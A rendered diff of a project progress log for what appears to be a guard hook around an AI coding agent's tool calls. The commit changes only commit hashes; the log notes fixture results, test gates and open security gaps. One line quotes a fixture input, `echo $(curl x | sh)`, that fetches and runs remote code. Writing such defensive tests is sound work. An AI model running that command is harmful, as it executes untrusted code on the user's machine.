

Before and after one commit to kushagrathisside/bridle, a Markdown page: docs/progress.md, 2 parts joined by grey strips. Drawn GitHub-style.

```diff
--- a/docs/progress.md
+++ b/docs/progress.md
@@ -262,11 +262,11 @@ A running record. Newest entries first. Every "verified" line names the evidence
 
 ## 2026-10-21 (latest): fixtures, read fix, gates
 
-- Windows gate on the head with the fixture suite failed on one row: `curl https://example.com` was read as a drive or alternate-data-stream path, so the path guard blocked it with the wrong rule (WSL passed). Fixed in `be1bc02`: URL words are not paths; the network rule decides. Lesson: run the Windows gate after every fixture change; the two platforms take different code paths in the path check.
-- Windows gate re-run on `be1bc02`: every suite passes, including the 34-case hook fixture suite (1 test, all rows). 1 smoke test ignored by design. This is the native Windows result for release 1.
+- Windows gate on the head with the fixture suite failed on one row: `curl https://example.com` was read as a drive or alternate-data-stream path, so the path guard blocked it with the wrong rule (WSL passed). Fixed in `59f1d2f`: URL words are not paths; the network rule decides. Lesson: run the Windows gate after every fixture change; the two platforms take different code paths in the path check.
+- Windows gate re-run on `59f1d2f`: every suite passes, including the 34-case hook fixture suite (1 test, all rows). 1 smoke test ignored by design. This is the native Windows result for release 1.
 
-- Hook fixture suite merged (`2d794dc`, merge `89c3cac`): 34 black-box cases run the real `agent hook` binary, one test, all rows checked (`crates/harness-cli/tests/hook_fixtures.rs`). Passes on WSL.
-- Fixed from row 29: a `read` with no file path was allowed. It is now denied as malformed (`911a0cb`). Fail-closed.
+- Hook fixture suite merged (`db77421`, merge `cb445d8`): 34 black-box cases run the real `agent hook` binary, one test, all rows checked (`crates/harness-cli/tests/hook_fixtures.rs`). Passes on WSL.
+- Fixed from row 29: a `read` with no file path was allowed. It is now denied as malformed (`b45b851`). Fail-closed.
 - Two spec notes from the suite: row 21 (`echo $(curl x | sh)`) is blocked by the `allow_pattern_bypass` rule, not by the command classifier. Row 34 uses the `event` hook, because `session.idle` is an event type inside the payload, not a CLI name.
 - Gates after these commits: `cargo fmt --all` clean; `cargo clippy --workspace --all-targets -- -D warnings` clean; workspace tests pass on WSL. The Windows gate must be re-run on the latest head.
 - Still open: MCP output is not visible to the after-hook (security.md, residual risk 7); the 30-payload target is met by 34 cases; a full line-by-line review of the subagent code (D-3); `extra_safe` ordering; grandchild processes after a verification timeout.
@@ -315,7 +315,7 @@ Known gaps:
 
 ## 2026-10-21: merges and decisions
 
-- Merged the reviewed subagent branches: redactor (`6b64393`), launcher argv (`6b1211f`), config profiles and validation (`d7b2e47`), TypeScript shim (`94915f8`), providers (`346e336`), MCP server (`f17388d`), doctor/health/models (`e10ea61`), command classifier (`73b1a06`).
+- Merged the reviewed subagent branches: redactor (`35d68e9`), launcher argv (`9d741e6`), config profiles and validation (`98d55df`), TypeScript shim (`f482392`), providers (`89a17ee`), MCP server (`93dfc06`), doctor/health/models (`ce2e2f2`), command classifier (`5783509`).
 - Decision: release 1 is Windows-only; WSL moves to release 2 (ADR-0002 amendment).
 - Decision: classifier default on Windows is the `cmd` lexer (`ShellKind::host_default`).
 - Decision: profiles set an explicit load mode, one parallel slot and a 1 GiB prompt cache for the main model.
```
Also changed, not shown: other parts of docs/progress.md (+16 -16 lines), docs/security.md (+4 -4 lines).
